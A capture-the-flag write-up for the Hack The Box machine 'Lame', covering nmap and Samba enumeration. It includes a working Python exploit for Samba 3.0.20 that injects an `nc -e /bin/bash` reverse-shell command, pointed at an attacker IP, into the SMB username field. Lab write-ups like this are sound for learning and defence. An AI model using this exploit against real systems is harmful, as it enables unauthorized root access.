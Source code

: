 # Lame
![info-card](./info_card.png)

## Initial Enumeration

The enumeration phase for this box is rather straight forward. To start off we will run a quick nmap scan with the following:

```bash
nmap -sV -sC 10.10.10.3
```

We can immediately see a possible point here:

![vsftpd](./vsftpd-nmap.png)

This version of `vsftpd` is quite old and a quick google search for that version brings up this [exploit](https://www.exploit-db.com/exploits/17491). Unfortunately it looks like this isn't exploitable on this box. Our next option is Samba. We get some version information from nmap:

![smb](./smb-nmap.png)

From this we only know that it's between 3.X - 4.X, which isn't all too useful. The most reliable way to fingerprint a Samba server is going to be capturing some network traffic and inspect the packets. For capturing packets you can use Wireshark or tcpdump (I'll use Wireshark here) and to generate the traffic we will just scan the server with `smbmap`. This gives us the dual purpose of collecting network packets as well as some additional enumeration on the service. From `smbmap` we can see that we have read/write access to a share `/tmp` as well as the version of the server:

![smbmap](./smbmap.png)

We can also see the version number in Wireshark, which is `samba 3.0.20-Debian`:

![smb-wireshark](./smb-wireshark.png)

## Exploitation

Searching for that with searchsploit brings up a metasploit [module](https://www.exploit-db.com/exploits/16320), but the exploit itself is pretty simple, so I will just write a python script to exploit it. Essentially we are injecting bash commands into the username field during the initial smb request. I'll use the following python script to kick off a reverse shell using the `-e` flag with `nc` on the target:

```python 
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()



username = "/=`nc -e /bin/bash 10.10.14.12 4443`"
password = ""
conn = SMBConnection(username, password, "HACKTHEBOX" , "HTB", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

This gives us a root shell and we are able to read the `root.txt` file (as well as `user.txt` of course):

![root](./root.png)
